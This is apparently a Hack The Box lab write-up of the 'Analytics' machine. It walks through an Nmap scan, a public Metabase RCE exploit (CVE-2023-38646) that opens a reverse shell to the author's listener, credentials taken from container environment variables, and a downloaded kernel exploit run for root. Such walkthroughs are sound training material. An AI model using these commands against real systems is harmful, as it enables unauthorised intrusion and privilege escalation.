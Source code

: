 # HTB - Analytics

#### Ip: 10.10.11.233
#### Name: Analytics
#### Rating: Easy

----------------------------------------------------------------------

![Analytics.png](../assets/analytics_assets/Analytics.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.233 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-08 11:46 CST
Nmap scan report for 10.10.11.233
Host is up (0.082s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.83 seconds
```

Lets add analytical.htb to `/etc/hosts`

Checking out the site on port 80 we find a largely static page:

![analytics_site.png](../assets/analytics_assets/analytics_site.png)

Interestingly though, the login page redirects to data.analytical.htb, so lets also add that to `/etc/hosts`

Navigating to this page presents me with a login to metabase:

![analytics_metabase_login.php](../assets/analytics_assets/analytics_metabase.png)

Searching for exploits I find: https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646 which details vulnerabilities we can chain together to achieve RCE on the target.

First, we can navigate to http://data.analytical.htb/api/session/properties to obtain the setup-token we'll need:

![analytics_setup_token.png](../assets/analytics_assets/analytics_setup_token.png)

Next, I searched for public exploits for the vulnerability and found: https://github.com/securezeron/CVE-2023-38646/blob/main/CVE-2023-38646-Reverse-Shell.py

I can run the script with will fetch the setup-token, and spawn a reverse shell in my nc listener:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ python CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb/api/session/properties --lhost 10.10.14.16 --lport 443
```

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.233] 40070
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
9431f8dc1d11:/$ whoami
whoami
metabase
```
Not seeing much on the target, I run linpeas and discover I've landed in a Docker container:

```
╔══════════╣ Container details
═╣ Is this a container? ........... docker
```

Knowing this lets run the `env` command to see if we can extract more information:

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Nice, here is a new user and their password. lets use these to SSH in as metalytics:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ ssh metalytics@10.10.11.233
```

From here I can grab the user.txt flag:

![analytics_user.png](../assets/analytics_assets/analytics_user.png)

### Privilege Escalation

Looking around and not seeing much, I went back to the basics and ran `uname -a` to check out the kernel version:

```
metalytics@analytics:/tmp$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Searching for exploits I find: https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629


I can copy the exploit to the target and run it:
```
metalytics@analytics:/tmp$ wget 10.10.14.16/ubuntu_6.2.0_exploit.sh
--2024-03-08 18:59:42--  http://10.10.14.16/ubuntu_6.2.0_exploit.sh
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [text/x-sh]
Saving to: ‘ubuntu_6.2.0_exploit.sh’

ubuntu_6.2.0_exploit.sh         100%[====================================================>]     558  --.-KB/s    in 0.005s  

2024-03-08 18:59:42 (117 KB/s) - ‘ubuntu_6.2.0_exploit.sh’ saved [558/558]

metalytics@analytics:/tmp$ chmod +x ubuntu_6.2.0_exploit.sh 
metalytics@analytics:/tmp$ ./ubuntu_6.2.0_exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# whoami
root
```

I can then grab the final flag:

![analytics_root.png](../assets/analytics_assets/analytics_root.png)

Thanks for following along!

-Ryan

-----------------------------------------------
